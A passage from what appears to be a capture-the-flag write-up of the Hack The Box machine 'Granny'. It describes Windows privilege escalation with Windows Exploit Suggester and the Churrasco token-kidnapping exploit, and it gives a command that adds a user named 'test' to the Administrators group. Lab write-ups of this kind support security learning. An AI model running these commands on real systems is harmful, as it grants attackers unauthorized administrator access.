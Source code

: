 We’ll use [Windows Exploit Suggester](https://github.com/GDSSecurity/Windows-Exploit-Suggester) to identify any missing patches on the Windows target machine that could potentially allow us to escalate privileges.

First, download the script.

```text
git clone https://github.com/GDSSecurity/Windows-Exploit-Suggester.git
```

Next, install the dependencies specified in the readme document.

```text
pip install xlrd --upgrade
```

Update the database.

```text
./windows-exploit-suggester.py --update
```

This creates an excel spreadsheet from the Microsoft vulnerability database in the working directory.

The next step is to retrieve the system information from the target machine. This can be done using the “_systeminfo_” command.

![](https://miro.medium.com/max/808/1*eSTEpJth-qCyxsxdc6HcFA.png)

Copy the output and save it in the file “_systeminfo.txt_” on the attack machine. Then run the following command.

```text
./windows-exploit-suggester.py --database 2020-02-17-mssb.xls --systeminfo ../../htb/granny/systeminfo.txt
```

It outputs many vulnerabilities. I tried several of them, but none of them worked except for the [Microsoft Windows Server 2003 — Token Kidnapping Local Privilege Escalation](https://www.exploit-db.com/exploits/6705) exploit. Grab the executable [from here](https://github.com/Re4son/Churrasco) and transfer it to the attack machine in the same way we transferred the reverse shell.

Whatever command we include when running the executable file, the command will get executed with escalated privileges.

![](https://miro.medium.com/max/586/1*v2jCM2BLlE7v7nveldTcCA.png)

Let’s use the executable to add a user on the system that is part of the _Administrators_ group.

```text
churrasco.exe "net user test test /add && net localgroup Administrators test /add"
```

The command completes successfully.

![](https://miro.medium.com/max/589/1*43eVshFKzUhEi68sulCpPQ.png)

However, when I try to use the “_runas_” command to switch to that user it doesn’t work. Maybe User Account Control \(UAC\) is enabled and the “_runas_” command does not elevate your privileges. So I figured maybe I could get it working using PowerShell as explained in [this article](https://medium.com/@asfiyashaikh10/windows-privilege-escalation-using-sudo-su-ae5573feccd9), but PowerShell is not installed on the machine!
